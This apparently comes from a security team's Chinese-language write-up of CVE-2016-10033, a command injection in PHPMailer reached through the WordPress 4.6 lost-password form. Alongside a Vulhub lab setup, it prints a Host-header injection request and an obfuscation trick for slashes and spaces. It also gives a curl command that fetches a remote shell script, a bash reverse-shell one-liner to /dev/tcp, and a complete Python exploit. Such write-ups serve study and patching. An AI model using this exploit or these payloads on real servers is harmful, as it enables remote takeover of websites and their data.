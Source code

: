 # CVE-2016-10033

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Wordpress 4.6 任意命令执行漏洞 PwnScriptum



## 0x01 漏洞描述

phpmailer组件调用linux系统命令sendmail进行邮件发送，通过传入的SERVER_NAME获取主机名(即请求host值)，而SERVER_NAME没有经过任何过滤，从而产生漏洞，而exim4替代了sendmail的功能，即可以利用substr，run函数等进入绕过，构造payload

## 0x02 影响范围

```
WordPress <= 4.6.0
PHPMailer < 5.2.18
```

## 0x03 环境搭建

Vulhub编译及运行测试环境

```
docker-compose build
docker-compose up -d
```

由于Mysql初始化需要一段时间，所以请等待。成功运行后，访问 http://your-ip:8080/wp-admin/install.php 打开站点，初始化管理员用户名和密码后即可使用（数据库等已经配置好，且不会自动更新）。

## 0x04 漏洞复现

发送如下数据包，可见/tmp/awesome_poc已经成功创建：

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}awesome_poc}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

![image.png](image/image.png)

![image.png](image/image%201.png)

但实际利用起来，还是有一些坑需要踏过。具体的坑有这么几个：

1. 执行的命令不能包含大量特殊字符，如 `:` 、`引号`等。
2. 命令会被转换成小写字母
3. 命令需要使用绝对路径
4. 需要知道某一个存在的用户的用户名

为了解决这些坑，漏洞作者想出了，利用`${substr{0}{1}{$spool_directory}}`代替`/`，用`${substr{10}{1}{$tod_log}}`代替空格的方法。

但是还是有很多字符不能用，所以我们需要将待执行的命令放到第三方网站中，然后通过`curl -o /tmp/rce example.com/shell.sh`的方法先将他下载到/tmp目录中，再去执行。

所以，总体来说利用过程如下：

- 编写反弹shell的exp，放到某个网页里。有如下要求：
    - 整个url的大写字母会被转换成小写，所以大写小敏感的系统不要使用大写字母做文件路径
    - 访问该网页不能跳转，因为follow跳转的参数是-L（大写）
- 拼接成命令`/usr/bin/curl -o/tmp/rce example.com/shell.sh`和命令`/bin/bash /tmp/rce`
- 将上述命令中的空格和`/`转换成`${substr{10}{1}{$tod_log}}`和`${substr{0}{1}{$spool_directory}}`
- 拼接成HTTP包的Host头：`target(any -froot@localhost -be ${run{command}} null)`
- 依次发送这两个拼接好的数据包

将上述过程写成exp脚本，将脚本中target修改成你的目标，user修改成一个已经存在的用户，`shell_url`修改成你放置payload的网址。（或直接将target作为第一个参数、`shell_url`作为第二个参数）

> example.com/shell.sh的内容为：
> 
> 
> ```
> bash -i >& /dev/tcp/your-reverse—shell-ip/9999 0>&1
> ```
> 

执行即可获得shell：

```
python wordpress.py http://192.168.174.128:8080 example.com/shell.sh
```

监听9999端口，接收反弹shell：

![image.png](image/image%202.png)

## 0x05 漏洞POC

```
#!/usr/bin/env python3
import requests
import sys

# wordpress's url
target = 'http://127.0.0.1' if len(sys.argv) < 1 else sys.argv[1]
# Put your command in a website, and use the website's url
# don't contains "http://", must be all lowercase
shell_url = 'example.com/1.txt' if len(sys.argv) < 2 else sys.argv[2]
# an exists user
user = 'admin'

def generate_command(command):
    command = '${run{%s}}' % command
    command = command.replace('/', '${substr{0}{1}{$spool_directory}}')
    command = command.replace(' ', '${substr{10}{1}{$tod_log}}')
    return 'target(any -froot@localhost -be %s null)' % command

session = requests.session()
data = {
    'user_login': user,
    'redirect_to': '',
    'wp-submit': 'Get New Password'
}
session.headers = {
    'Host': generate_command('/usr/bin/curl -o/tmp/rce ' + shell_url),
    'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)'
}
session.allow_redirects = False
target += '/wp-login.php?action=lostpassword'
session.post(target, data=data)

session.headers['Host'] = generate_command('/bin/bash /tmp/rce')
session.post(target, data=data)
```
